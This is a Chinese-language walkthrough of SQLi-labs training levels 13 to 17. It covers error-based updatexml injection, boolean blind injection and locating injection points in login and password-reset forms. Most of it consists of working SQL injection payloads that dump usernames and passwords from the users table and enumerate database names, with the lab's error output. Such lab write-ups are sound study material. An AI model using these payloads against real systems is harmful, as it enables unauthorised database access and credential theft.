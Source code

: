 - 表中内容（分段查询）

```
uname=123') and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 0,1)),3) -- a&passwd=123&Submit=Submit
uname=123') and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 1,1)),3) -- a&passwd=123&Submit=Submit
```

## Less-14

同Less-13，`"`闭合

## Less-15

不显示数据库的报错信息，报错注入无法使用，不会动态返回数据，无法使用联合注入。

注入点判断：

`admin' --`

返回：![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182047642.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182047642.png)

`a' or 1 -- a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182133041.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182133041.png)

`a' or 0 -- a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182150599.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417182150599.png)

可以确定注入点为单引号字符型

## Less-16

判断注入点为`")`，接下来依旧是布尔盲注

## Less-17

这一关在用户名处输入的都没有实际作用，只有输入正确的用户名后，会返回`SUCCESSFULLY UPDATED YOUR PASSWORD`,所以注入点应该在密码处。

输入：admin/a'

返回报错：

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1`

存在单引号注入点

```
#判断报错条件

a' and updatexml(1,0x7e,3) -- a

##返回：XPATH syntax error: '~'



#脱库
##查询所有数据库名
##可以分段查询：
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),3) -- a
###返回：XPATH syntax error: '~information_schema'
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 1,1)),3) -- a
```